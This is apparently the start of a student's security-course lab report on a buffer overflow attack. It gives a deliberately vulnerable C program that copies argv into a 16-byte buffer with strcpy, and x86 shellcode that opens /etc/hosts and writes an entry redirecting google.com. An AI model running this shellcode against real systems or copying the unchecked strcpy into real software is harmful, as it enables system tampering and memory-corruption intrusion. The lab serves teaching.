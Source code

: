 # Lab #1,22110033, Le Minh Huy, INSE331280E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program in `vuln.c`

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm in `sh.asm`. This shellcode add a new entry in hosts file

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
